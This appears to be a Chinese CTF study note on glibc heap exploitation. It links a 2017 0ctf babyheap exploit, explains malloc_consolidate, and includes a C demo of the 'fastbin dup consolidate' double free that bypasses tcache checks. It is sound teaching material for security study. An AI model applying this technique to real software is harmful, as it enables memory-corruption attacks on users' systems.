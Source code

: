 ## 2017 0ctf babyheap

[利用](https://github.com/huyinhao/ctf-buuoj/blob/main/fastbin/babyheap_0ctf_2017/exp.py)

## Fast Dup Consolidate

**待补充!!** 

当分配 large chunk时， _int_malloc 会调用 malloc_consolidate 尝试将空闲的 fastbin chunk 进行合并，来提高内存的利用率，减少内存碎片化的问题。

这些 fastbin chunk 会被合并到 unsorted bin 或者 top chunk，此时 fastbin 数组头部为空，即使再次 free 某个 fast bin chunk 时也不会触发 _int_free 检测，造成 double free 。

malloc_consolidate 大致可以分为以下几步：
1. 若 get_max_fast() 返回 0，则进行堆的初始化工作，然后进入第 7 步
2. 从 fastbin 中获取一个空闲 chunk
3. 尝试向后合并
4. 若向前相邻 top_chunk，则直接合并到 top_chunk，然后进入第 6 步
5. 否则尝试向前合并后，插入到 unsorted_bin 中
6. 获取下一个空闲 chunk，回到第 2 步，直到所有 fastbin 清空后进入第 7 步
7. 退出函数

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

void main() {
	// reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8
	puts("This is a powerful technique that bypasses the double free check in tcachebin.");
	printf("Fill up the tcache list to force the fastbin usage...\n");

	void* p1 = calloc(1,0x40);

	printf("Allocate another chunk of the same size p1=%p \n", p1);
	printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
	free(p1);

	void* p3 = malloc(0x400);
	printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
	printf("will trigger the malloc_consolidate and merge\n");
	printf("the fastbin chunks into the top chunk, thus\n");
	printf("p1 and p3 are now pointing to the same chunk !\n\n");

	assert(p1 == p3);

	printf("Triggering the double free vulnerability!\n\n");
	free(p1);

	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("The double free added the chunk referenced by p1 \n");
	printf("to the tcache thus the next similar-size malloc will\n");
	printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
}
```
